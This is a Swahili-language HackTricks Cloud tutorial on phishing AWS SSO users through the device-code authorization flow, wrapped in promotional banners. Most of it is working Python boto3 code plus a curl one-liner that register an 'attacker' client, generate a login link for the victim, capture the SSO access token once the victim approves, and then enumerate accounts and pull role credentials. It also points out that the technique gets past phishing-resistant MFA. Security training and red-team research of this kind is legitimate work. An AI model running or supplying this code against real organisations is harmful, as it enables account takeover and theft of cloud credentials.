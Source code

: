 # AWS - Kitambulisho Center & SSO Unauthenticated Enum

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Udukuzi wa Kanuni ya Kifaa cha AWS

Awali ilipendekezwa katika [**chapisho hili la blogi**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), inawezekana kutuma **kiungo** kwa mtumiaji kutumia AWS SSO ambayo ikiwa **mtumiaji atakubali** mshambuliaji ataweza kupata **ishara ya kujifanya kuwa mtumiaji** na kupata ufikiaji wa majukumu yote ambayo mtumiaji anaweza kupata katika **Kituo cha Kitambulisho**.

Ili kutekeleza shambulio hili, mahitaji ni:

* Mvamizi anahitaji kutumia **Kituo cha Kitambulisho**
* Mvamizi lazima ajue **subdomain** inayotumiwa na mwathiriwa `<victimsub>.awsapps.com/start`

Kwa habari hizi, **mshambuliaji ataweza kutuma kiungo kwa mtumiaji** ambayo ikikubaliwa itatoa **mshambuliaji ufikiaji kwenye akaunti ya mtumiaji wa AWS**.

### Shambulio

1. **Kupata subdomain**

Hatua ya kwanza ya mshambuliaji ni kugundua subdomain kampuni ya mwathiriwa inayotumia katika Kituo chao cha Kitambulisho. Hii inaweza kufanywa kupitia **OSINT** au **kudhani + BF** kwa sababu nyingi za kampuni zitatumia jina lao au mabadiliko ya jina lao hapa.

Kwa habari hii, inawezekana kupata eneo ambapo Kituo cha Kitambulisho kilikonfigurwa na:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Tengeneza kiungo kwa muathiriwa & Tuma**

Chukua msimbo ufuatao ili kutengeneza kiungo cha kuingia kwenye AWS SSO ili muathiriwa aweze kujithibitisha.\
Kwa mfano, endesha msimbo huu kwenye konsoli ya python na usiitoke kwani baadaye utahitaji baadhi ya vitu kupata kibali:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **Subiri mpaka mwathiriwa akubali**

Ikiwa mwathiriwa alikuwa **ameingia tayari kwenye AWS** atahitaji tu kukubali kutoa ruhusa, ikiwa hakuwa ameingia, atahitaji **kuingia kisha kukubali kutoa ruhusa**.\
Hivi ndivyo dirisha la ombi linavyoonekana hivi sasa:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Pata tokeni ya ufikiaji wa SSO**

Ikiwa mwathiriwa amekubali ombi, endesha kanuni hii ili **kupata tokeni ya ufikiaji wa SSO ukijifanya kuwa mtumiaji**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Tokeni ya ufikiaji wa SSO ni **halali kwa masaa 8**.

5. **Jifanye kuwa mtumiaji**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Kuwinda MFA isiyoweza kufikiwa

Ni furaha kujua kwamba shambulio la awali **linafanya kazi hata kama "MFA isiyoweza kufikiwa" (webAuth) inatumika**. Hii ni kwa sababu **hatua ya awali kamwe haiachi kikoa cha OAuth kilichotumiwa**. Sio kama katika mashambulio mengine ya kuwinda ambapo mtumiaji anahitaji kuchukua nafasi ya kikoa cha kuingia, katika kesi hii hatua ya msimbo wa kifaa imeandaliwa ili **msimbo ujulikane na kifaa** na mtumiaji anaweza kuingia hata kwenye mashine tofauti. Ikiwa ombi litakubaliwa, kifaa, kwa tu **kujua msimbo wa awali**, litaweza **kupata vibali** vya mtumiaji.

Kwa habari zaidi kuhusu hii [**angalia chapisho hili**](https://mjg59.dreamwidth.org/62175.html).

### Zana za Kiotomatiki

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Marejeo

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>Jifunze kuhusu kuhack AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kuhack kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
